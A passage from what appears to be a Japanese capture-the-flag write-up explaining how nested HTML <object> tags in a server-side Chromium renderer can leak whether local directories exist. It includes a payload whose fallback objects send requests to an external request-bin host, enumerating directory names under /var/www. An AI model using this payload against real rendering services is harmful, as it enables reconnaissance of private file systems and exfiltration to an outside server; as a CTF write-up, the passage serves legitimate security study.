 ```html
        </object>
        <br>
        <object data="file:///omg/">
            <object data="http://example.com?omg"></object>
        </object>
    </body>
</html>
```
これをtest2.htmlとして、Chromiumで開くと以下の通りとなる。  
![test2.png](images/test2.png)  
存在するディレクトリ`file:///etc/`はIndex ofが表示されている。  
一方、存在しないディレクトリ`file:///omg/`は読み込みに失敗しており、その子要素である`http://example.com?omg`が表示されている。  
このリクエストを自身のサーバへ向けることで、オラクルとできないだろうか。  
クエリからどの子要素か判定できるようにしておけば、リクエストの有無を用いてディレクトリの存在をリークできると気づく。  
[リクエストを受信できるサーバ](https://pipedream.com/requestbin)などを利用して、以下のようなHTMLを送信する。  

```html
<html>
    <body>
        <object data="file:////var/www/htmls/ctf/a/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/a/"></object>
        </object>
        <object data="file:////var/www/htmls/ctf/b/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/b/"></object>
        </object>
~~~
        <object data="file:////var/www/htmls/ctf/9/">
            <object data="https://enxcl00pxd1sf.x.pipedream.net/?no=file:///var/www/htmls/ctf/9/"></object>
        </object>
    </body>
</html>
```